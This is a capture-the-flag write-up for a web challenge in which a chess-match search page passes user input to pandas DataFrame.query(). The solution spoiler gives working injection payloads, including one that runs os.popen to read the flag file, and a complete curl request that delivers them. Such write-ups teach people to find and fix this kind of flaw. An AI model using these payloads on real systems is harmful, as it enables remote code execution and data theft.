

# Duncan Chess Academy
**Category:** web

**Author:** \_Roko'sBasilisk\_

## Description

The embarassing defeat of the each and every chess club member by Beth, urged Mr Ganz to build an online Chess Academy. Although still in very early stages, it has a search engine for filtering historical chess matches. What could go wrong..?

## Points
500

## Solution

<details>
 <summary>Reveal Spoiler</summary>

The main vulnerability of the challenge is using the `query()` method of pandas DataFrames with user contorlled input to filter data. This method is using python's builtin `eval` in the background and can lead to RCE if not used carefully.

In this case however the input is somewhat constrained. The filterable fields have a predefined set of choices which is generated from the existing fields in the database, apart from "turns" - which allows only integers - and "rated" which is limited to an input of a maximum 10 characters.

The next step of the solution is to find a way of bypassing those restrictions in order to pass arbitrary input in the query method. A key observation that needs to be made is that the `add()` function is imported from `webapp.server.game.views` into `webapp.server.user.views` where query invocation resides. This means that `add()` is in the globals when query is called. As a result it can be invoked from the query method using the `@` prefix. By exploiting that we can add a new record in the databse which has our next payload as the value of the "opening_name" field and therefore being able to use it in the filter request. 

To invoke the `add()` method and add a new record we use the "rated" field which is the only one that only restricts the length of the input rather than the contents using the payload `'+add()+'` as input which is exactly of length 10. Furthermore the next payload should be added in the "opening_name" field by using the "on" form data field (See `AddGameForm`). This should be something that allows for RCE and thus it can be something like this `'+@form.winner.__setattr__("choices",[@pd.io.common.os.popen("cat /root/flag/txt").read()]).__str__()+'`. This updates the choices of the "winner" field in the filter form so that we can extract the result of our payload. Other exfliltration methods are also possible. 

Also note that in this payload I am directly reading the flag but in the real challenge you should do a bit of searching (Since you already have RCE) to find where the flag is before reading it.

We can then perform the following request (Make sure your CSRF token matches):

```bash
curl 'http://localhost:5002/members' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "Chromium";v="88", "Google Chrome";v="88", ";Not A Brand";v="99"' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
 -H 'Cookie: _xsrf=2|e8c3fa28|46c03ed42decf03a74a32cc8f0730a39|1612020031; _ga=GA1.1.134899202.1612893888; session=.eJwdzkuOAjEMRdG9ZMzATmwnYTMlxx81QuqWqmCE2DtFD9_g6p1X2XKP46dcH_szLmW7ebmWJQaAE0fXoGahDqSqDEPbrKN5W0vEKtbl0MIaCVk0mbgqMQPhuVjQYDgRoXYhzxxkZjg7hQe6M3XoYTTmGUSHwQtikessJ-R5xP6vwUuxY8_t8XeP3y8OeyZbRqbbeZLCGjLDppF6dc3GhC7l_QFuwEAL.YDTkHw.hgsAOrVY1gDUYaQOS84tSpQ37EQ' \
  --data-raw 'csrf_token=ImIxN2ZmNWNmZWZmZGM1NjFmNjVhZTY5ZWM5YzRhZDJkYWYzNTQxZDYi.YDTk3g.ZIbEh6RlTqkQUXjQV3CaEVpoeAI&opening_name=&victory_status=outoftime&winner=black&rated=%27%2B%40add()%2B%27&turns=10&id=IRRELEVANTID&moves=DOESNOTMATTER&on=%27%2B%40form.winner.__setattr__(%22choices%22%2C%5B%40pd.io.common.os.popen(%22cat%20%2Froot%2Fflag.txt%22).read()%5D).__str__()%2B%27' \
  --compressed
```

When the new record is added, a new option containg our exploit payload should appear in the `opening_name` filter.



We cna then choose this payload and run the search function which will execute it and update the winner field with the flag as shown below:


</details>